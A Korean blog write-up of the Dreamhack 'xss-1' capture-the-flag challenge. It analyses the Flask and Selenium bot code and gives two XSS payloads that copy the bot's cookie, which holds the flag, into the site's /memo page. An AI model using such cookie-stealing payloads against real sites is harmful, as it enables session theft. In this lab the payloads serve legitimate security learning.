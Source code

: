 ```yaml
---
layout: post
category: [wargame, web]
title: xss-1
---
```


## [문제](https://dreamhack.io/wargame/challenges/28)
XSS 공격으로 플래그를 얻는 문제이다.

## 문제 분석
![페이지 메인](/assets/img/2024-05-09-xss-1/main-page.png)   

``/vuln?param=<script>alert(1)</script>``
![스크립트가 실행된다](/assets/img/2024-05-09-xss-1/xss.png)
vuln(xss) page 는 클라이언트가 접속하면 param에 있는 스크립트를 실행하는 페이지인것 같다.   

``/memo?memo=hello``   
memo 페이지는 쿼리스트링에 있는 문자열을 메모에 기록하는 역할을 한다.   
![쿼리스트링에 있는 문자열이 메모에 기록된다](/assets/img/2024-05-09-xss-1/memo.png)

``/flag``   
플래그를 얻기 위한 입력창으로 보인다.
![XSS 공격 입력창](/assets/img/2024-05-09-xss-1/flag-input.png)   
폼이 있으니 서버 소스코드를 확인해보자.

```py
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST": # 폼을 제출하면 (POST)
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

``/flag`` 페이지에 있는 폼을 제출하면 ``check_xss()`` 함수에 내가 입력한 입력값과 플래그 값을 같이 포함하고 있는 것을 알 수 있다. ``check_xss()`` 함수를 확인해보자.

```py
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

``read_url()`` 함수에 ``/vuln`` 페이지 주소와 내가 입력한 값, 플래그 값(쿠키) 를 넘겨주고 있다. ``read_url()`` 함수를 살펴보자.

```py
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True
```

[셀레니움](https://www.selenium.dev/) 을 사용해 브라우저에 쿠키 값을 추가하고 주어진 ``url`` 변수로 이동하고 있다. 추가되는 쿠키 값은 FLAG 가 될 것이다. (``check_xss()`` 에 플래그가 매개변수로 있기 때문에)

> 셀레니움이란?   
Selenium automates browsers. That's it! - selenium.dev  
브라우저를 자동화하는것으로, 서버에서 브라우저를 통해 크롤링이나 동작을 자동화 할 수 있는 프레임워크이다.

이 문제에선 XSS 공격에 클라이언트가 필요하기 때문에 셀레니움을 사용한 것 같다.

## 풀이
XSS 공격을 통해 문제를 풀 수 있다. 아래의 페이로드 이외에도 XSS 공격이 가능한 페이로드면 가능해 보인다.
```js
<script>location.href = "/memo?memo=" + document.cookie<script>
<img src="HEHE" onerror="fetch('/memo?memo=' + document.cookie)">
... 이외 많은 XSS 공격 페이로드(?)
```

위 페이로드를 ``/flag`` 페이지에서 폼을 통해 제출하면 쿠키에 플래그가 포함되어 있는 브라우저가 서버에서 실행되고, 그 브라우저는 제출한 페이로드를 실행하기 위해 XSS 공격에 취약한 페이지 (``/vuln?param=페이로드``) 로 접속한다 페이로드에 포함되어 있는 스크립트를 서버에서 동작 중인 브라우저가 실행하고 그 스트립트는 ``/memo`` 에 쿠키 정보를 포함하여 요청을 보내게 된다.

공격자는 ``/memo`` 페이지에 접속해 서버에서 실행된 브라우저에 담겨 있는 쿠키를 확인할 수 있게 된다.

![FLAG](/assets/img/2024-05-09-xss-1/flag.png)